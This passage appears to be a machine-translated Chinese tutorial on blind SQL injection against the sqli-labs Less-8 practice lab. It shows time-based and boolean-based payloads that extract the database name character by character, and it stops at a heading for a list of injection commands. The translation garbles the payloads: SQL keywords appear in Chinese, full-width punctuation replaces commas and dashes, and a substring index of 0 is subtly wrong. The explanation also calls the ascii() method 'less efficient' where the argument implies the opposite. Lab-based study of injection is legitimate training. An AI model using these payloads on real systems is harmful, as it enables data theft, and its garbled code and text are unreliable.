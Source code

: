 ![](img/9c09e8e08239bc0c2c1199fad1499410.png)

网址:http://localhost:8081/sqli-labs/Less-8/？id = 1 '+和+if( (substring(database()，1，1) = 's ')，sleep(5)，null)–+

在基于布尔运算的情况下，你要么得到一条消息，要么什么都不得到。如果收到消息，查询返回 true，否则返回 false。

1 '和(子串(database()，1，1) = 's') - +

![](img/4bc4fb3d4ffbb3d5498cd0182ee5ec91.png)

URL:localhost:8081/sqli-labs/Less-8/？id=1'+and+(子串(database()，1，1)= ' s ')–+

这种方法很棘手，因为你必须尝试每一种可能性，花费你大部分的时间。另一种效率较低的方法是使用“ascii()”函数将字符转换成 ascii 代码来比较数字，因此可以使用关系运算符。

```
if( (ascii(substring(database(), 0, 1)) = 115), sleep(5), null )
```

## SQL 注入命令

上图中，我们在进行 SQL 注入攻击时已经浏览了一些有用的语法。以下是一些常见的 SQL 注入命令:
